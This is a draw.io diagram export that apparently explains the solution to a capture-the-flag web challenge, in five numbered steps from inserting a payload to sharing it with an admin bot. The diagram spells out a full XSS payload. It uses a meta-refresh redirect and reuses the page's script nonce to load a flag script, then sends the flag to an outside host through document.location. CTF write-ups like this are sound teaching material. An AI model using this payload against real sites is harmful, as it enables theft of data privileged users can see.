

The diagram above was exported from draw.io. Its source (the exported page's mxGraphModel, read from the mxfile embedded in the PNG):
<mxGraphModel dx="1539" dy="846" grid="1" gridSize="13" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="3300" pageHeight="2339" math="0" shadow="0">
  <root>
    <mxCell id="0" />
    <mxCell id="1" parent="0" />
    <mxCell id="JJzvr27p6mKngN86fw9k-2" value="&lt;font style=&quot;font-size: 18px&quot; face=&quot;Roboto&quot; data-font-src=&quot;https://fonts.googleapis.com/css?family=Roboto&quot;&gt;OUR SERVER&lt;/font&gt;" style="rounded=0;whiteSpace=wrap;html=1;fontStyle=1;strokeColor=#ffa600;strokeWidth=2;" parent="1" vertex="1">
      <mxGeometry x="1391" y="835" width="221" height="99" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-1" value="&lt;font style=&quot;font-size: 14px&quot;&gt;DOCUMENT.BODY.STYLE=&lt;font color=&quot;#1434ff&quot;&gt;&amp;nbsp;`color:red`;}var oldsc=document.currentScript.nonce;var sc =document.createElement(`script`);sc.nonce=oldsc;sc.src=`/flag?var=flag`;document.querySelector(`html`).appendChild(sc);setTimeout(function(){document.location=`https://ctf.warriordev.com/ctfserver/ref?flag=${flag}`},100);{//&lt;/font&gt;&lt;/font&gt;" style="rounded=0;whiteSpace=wrap;html=1;strokeColor=#ff0059;strokeWidth=2;" parent="1" vertex="1">
      <mxGeometry x="702" y="1131" width="507" height="234" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-2" value="&lt;span style=&quot;font-size: 18px&quot;&gt;&lt;font face=&quot;Roboto&quot; data-font-src=&quot;https://fonts.googleapis.com/css?family=Roboto&quot;&gt;NOTE/48ab..&lt;/font&gt;&lt;/span&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;fontStyle=1" parent="1" vertex="1">
      <mxGeometry x="871" y="1144" width="143" height="26" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-9" value="&lt;font style=&quot;font-size: 18px&quot;&gt;&lt;b&gt;ADMIN&lt;/b&gt;&lt;/font&gt;" style="rounded=0;whiteSpace=wrap;html=1;strokeColor=#cf00cc;strokeWidth=2;" parent="1" vertex="1">
      <mxGeometry x="1079" y="1560" width="221" height="156" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-12" value="&lt;font style=&quot;font-size: 18px&quot; face=&quot;Roboto&quot; data-font-src=&quot;https://fonts.googleapis.com/css?family=Roboto&quot;&gt;&lt;b&gt;PAYLOAD&lt;/b&gt;&lt;/font&gt;" style="ellipse;whiteSpace=wrap;html=1;fontColor=#000000;strokeColor=#1434FF;strokeWidth=2;" parent="1" vertex="1">
      <mxGeometry x="1872" y="858" width="195" height="130" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-16" value="" style="endArrow=classic;html=1;fontColor=#000000;jumpSize=6;strokeWidth=3;exitX=0;exitY=0.5;exitDx=0;exitDy=0;strokeColor=#1434FF;entryX=0.552;entryY=0.005;entryDx=0;entryDy=0;entryPerimeter=0;" parent="1" source="FRGizQ8gNw0kwgFSInE0-12" target="FRGizQ8gNw0kwgFSInE0-5" edge="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="1924" y="858" as="sourcePoint" />
        <mxPoint x="1742" y="1131" as="targetPoint" />
        <Array as="points">
          <mxPoint x="1742" y="923" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-22" value="" style="html=1;verticalLabelPosition=bottom;align=center;labelBackgroundColor=#ffffff;verticalAlign=top;strokeWidth=2;shadow=0;dashed=0;shape=mxgraph.ios7.icons.flag;fontColor=#000000;strokeColor=#ff6e2b;" parent="1" vertex="1">
      <mxGeometry x="1053" y="819" width="169" height="143" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-23" value="&lt;b&gt;&lt;font face=&quot;Roboto&quot; data-font-src=&quot;https://fonts.googleapis.com/css?family=Roboto&quot;&gt;&amp;lt;SCRIPT SRC = /FLAG?VAR=FLAG&amp;gt;&lt;/font&gt;&lt;/b&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;fontColor=#000000;" parent="1" vertex="1">
      <mxGeometry x="1053" y="845" width="156" height="26" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-24" value="&lt;font style=&quot;font-size: 14px&quot; face=&quot;Roboto&quot; data-font-src=&quot;https://fonts.googleapis.com/css?family=Roboto&quot;&gt;1.INSERT PAYLOAD&lt;/font&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;fontColor=#000000;" parent="1" vertex="1">
      <mxGeometry x="1690" y="897" width="221" height="26" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-27" value="" style="endArrow=classic;html=1;strokeWidth=3;fontColor=#000000;strokeColor=#ff0090;" parent="1" edge="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="1674" y="1313" as="sourcePoint" />
        <mxPoint x="1300" y="1661" as="targetPoint" />
        <Array as="points">
          <mxPoint x="1674" y="1661" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-28" value="&lt;font style=&quot;font-size: 14px&quot; face=&quot;Roboto&quot; data-font-src=&quot;https://fonts.googleapis.com/css?family=Roboto&quot;&gt;2.SHARE WITH ADMIN&lt;/font&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;dashed=1;fontColor=#000000;" parent="1" vertex="1">
      <mxGeometry x="1430" y="1612" width="117" height="39" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-30" value="" style="endArrow=classic;html=1;strokeWidth=3;fontColor=#000000;strokeColor=#cf00cc;" parent="1" edge="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="1077" y="1638" as="sourcePoint" />
        <mxPoint x="852" y="1365" as="targetPoint" />
        <Array as="points">
          <mxPoint x="852" y="1638" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-31" value="&lt;font style=&quot;font-size: 14px&quot; face=&quot;Roboto&quot; data-font-src=&quot;https://fonts.googleapis.com/css?family=Roboto&quot;&gt;3.ADMIN GETS REDIRECTED (META REFRESH)&lt;/font&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;dashed=1;fontColor=#000000;fillColor=#ffffff;strokeColor=#1434FF;strokeWidth=2;" parent="1" vertex="1">
      <mxGeometry x="871" y="1573" width="156" height="52" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-32" value="" style="endArrow=classic;html=1;strokeWidth=3;fontColor=#000000;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#CF00CC;" parent="1" target="FRGizQ8gNw0kwgFSInE0-23" edge="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="832" y="1131" as="sourcePoint" />
        <mxPoint x="987" y="845" as="targetPoint" />
        <Array as="points">
          <mxPoint x="832" y="858" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-5" value="&lt;font style=&quot;font-size: 14px&quot;&gt;IMG.SRC = '&lt;font color=&quot;#1434ff&quot;&gt;&amp;lt;/script&amp;gt;&amp;lt;meta http-equiv=&quot;refresh&quot; content=&quot;0;URL=http://yayacc.zajebistyc.tf/note/48ab77af-f06d-48d5-a6d2-fba6ddcc8227?theme=`color:red`&amp;gt;;}var oldsc=document.currentScript.nonce;var sc =document.createElement(`script`);sc.nonce=oldsc;sc.src=`/flag?var=flag`;document.querySelector(`html`).appendChild(sc);setTimeout(function(){document.location=`https://ctf.warriordev.com/ctfserver/ref?flag=${flag}`},100);{//&lt;/font&gt;'&lt;/font&gt;" style="rounded=0;whiteSpace=wrap;html=1;strokeWidth=2;strokeColor=#FF00CC;" parent="1" vertex="1">
      <mxGeometry x="1456" y="1124.5" width="520" height="227.5" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-37" value="" style="endArrow=none;dashed=1;html=1;strokeWidth=2;fontColor=#000000;entryX=0;entryY=0.456;entryDx=0;entryDy=0;entryPerimeter=0;strokeColor=#1434FF;" parent="1" source="FRGizQ8gNw0kwgFSInE0-31" target="FRGizQ8gNw0kwgFSInE0-5" edge="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="1262" y="1313" as="sourcePoint" />
        <mxPoint x="1247" y="806" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-39" value="&lt;font style=&quot;font-size: 14px&quot; face=&quot;Roboto&quot; data-font-src=&quot;https://fonts.googleapis.com/css?family=Roboto&quot;&gt;4. ADMIN IS AUTHORIZED TO READ THE FLAG&lt;/font&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;dashed=1;fontColor=#000000;" parent="1" vertex="1">
      <mxGeometry x="845" y="819" width="182" height="39" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-41" value="" style="endArrow=classic;html=1;strokeWidth=3;fontColor=#000000;exitX=0.695;exitY=0.537;exitDx=0;exitDy=0;exitPerimeter=0;entryX=0.469;entryY=0.998;entryDx=0;entryDy=0;entryPerimeter=0;strokeColor=#ff6e2b;" parent="1" source="FRGizQ8gNw0kwgFSInE0-22" target="JJzvr27p6mKngN86fw9k-2" edge="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="1625" y="1103" as="sourcePoint" />
        <mxPoint x="1675" y="1053" as="targetPoint" />
        <Array as="points">
          <mxPoint x="1172" y="1014" />
          <mxPoint x="1495" y="1014" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-42" value="&lt;font style=&quot;font-size: 14px&quot; face=&quot;Roboto&quot; data-font-src=&quot;https://fonts.googleapis.com/css?family=Roboto&quot;&gt;5.DOCUMENT.LOCATION MAKING GET REQUEST WITH FLAG AS A QUERY&lt;/font&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;dashed=1;fontColor=#000000;strokeWidth=2;strokeColor=#1434FF;" parent="1" vertex="1">
      <mxGeometry x="1248" y="1027" width="169" height="52" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-43" value="" style="endArrow=none;dashed=1;html=1;strokeWidth=2;fontColor=#000000;exitX=-0.008;exitY=0.151;exitDx=0;exitDy=0;exitPerimeter=0;entryX=0.538;entryY=1;entryDx=0;entryDy=0;entryPerimeter=0;strokeColor=#1434FF;" parent="1" source="FRGizQ8gNw0kwgFSInE0-5" target="FRGizQ8gNw0kwgFSInE0-42" edge="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="1324" y="1222" as="sourcePoint" />
        <mxPoint x="1324" y="1074.5" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-45" value="&lt;span style=&quot;font-size: 18px ; font-weight: 700&quot;&gt;&lt;font face=&quot;Roboto&quot; data-font-src=&quot;https://fonts.googleapis.com/css?family=Roboto&quot;&gt;NOTE/344&lt;/font&gt;&lt;/span&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;dashed=1;fontColor=#000000;rotation=0;" parent="1" vertex="1">
      <mxGeometry x="1644.5" y="1144" width="117" height="20" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-46" style="edgeStyle=orthogonalEdgeStyle;rounded=0;jumpSize=6;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;strokeColor=#00FFFF;strokeWidth=2;fontColor=#000000;" parent="1" source="FRGizQ8gNw0kwgFSInE0-9" target="FRGizQ8gNw0kwgFSInE0-9" edge="1">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
  </root>
</mxGraphModel>